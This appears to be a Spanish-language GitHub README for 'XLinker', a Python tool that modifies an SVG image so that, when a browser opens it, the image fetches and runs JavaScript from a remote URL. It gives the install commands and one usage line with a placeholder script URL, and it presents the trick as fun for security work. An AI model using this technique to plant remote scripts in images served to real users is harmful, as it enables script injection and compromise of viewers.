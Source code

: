 # XLinker
### Agrega scripts que se carguen remotamente desde una URL a una imagen SVG.

Una imagen SVG es una imagen vectorial con un formato XML,
a estas imágenes se les pueden agregar animaciones via JavaScript,
pero desde el punto de vista de la ciberseguridad lo más divertido
es poder cargar estos scripts de forma dinámica desde un lugar remoto.

Este script modifica la imagen especificada agregándole una solicitud
a un script alojado en la URL especificada.

Cuando la imagen sea cargada en un navegador se realizará una petición al recurso
especificado y se realizarán las instrucciones JS especificadas.

## Instalación

### Instalación de dependencias
apt-get install libxml2-dev libxslt-dev

### Liberías de Python empleadas
pip3 install -r < requirements.txt

## Modo de uso

python3 xlinker.py /ruta/del/documento/svg http://dominio_donde_este_alojado_el/script.js

![Modo de uso](https://raw.githubusercontent.com/HoneySEC/scripts/master/svg/xlinker/demo/photo/usage.png)

### Ejemplo de funcionamiento
![Ejemplo de funcionamiento(https://raw.githubusercontent.com/HoneySEC/scripts/master/svg/xlinker/demo/photo/demo.png)
